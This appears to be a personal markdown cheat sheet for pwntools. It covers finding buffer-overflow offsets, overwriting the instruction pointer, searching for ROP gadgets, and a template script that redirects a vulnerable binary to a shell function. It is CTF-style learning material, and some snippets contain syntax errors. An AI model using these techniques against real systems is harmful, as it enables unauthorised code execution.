 # Pwntools

## Installation

There are main ways but I found this method work best for me, check yourself.
```bash
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
export PYTHONPATH=/home/$1/.local/bin
```


Enumeration
```bash
r < <(cyclic $INT) # cyclic input of $INT amount
cyclic -l EIP_Address # find out the amount of bytes of input need to expploit the binary
disassemble shell # find out where the shell function is in memory to set it to IP
# EITHER
# IF MANUAL WAY REMEMBER CORRECT ADDRESS LENGTH AND ENDIANNESS
# L->R = littleEndian; R->L = bigEndian
python -c 'print "A"*$INT + "$ADDR"' | /vuln/bin
python -c 'import struct;print "A"*44 + struct.pack("< ", $ADDR)' | /vuln/bin
```

[Context](https://docs.pwntools.com/en/stable/context.html) is powerful, global variable; use with remote for remote host and gb.debug to pipe to gdb!
```python
context(terminal=['tmux', 'new-window'])
p = gdb.debug('./vulnerableBinary', 'b main')
p = remote('10.10.10.10', 1337)
context(os='linux', arch='amd64')
```

Find functions for rop chains
```bash
# inside gdb with gef
gef> ropper --search r$num # for legacy-gef or requires gef-extras
# for cli
ropper -f $binary | grep $register_of_the_function # from commandline
# is the equivant
objdump -D $binary  | grep -i $ function_name
```

Packing
```python
p64() # pack 64 bits
```

Sending, receiving input and interactive shell
```python
p.sendline('\x0A'.encode()) # send an enter key
p.sendline(varOne + varTwo + varThree + ) # send variables linearly
p.recvuntil('until some string if it is a prompt')
p.interactive() # works with remote pops shell if part of payload
```


Scripting the buffer overflow
```python
from pwn import *
proc = process('/vuln/bin')
elf = ELF('/vuln/bin')
shell_func = elf.symbols.shell # CHANGE WHATEVER FORMAT REQUIRED
payload = fit({$INT: shell_func })
proc.sendline(payload)
proc.interactive()
```

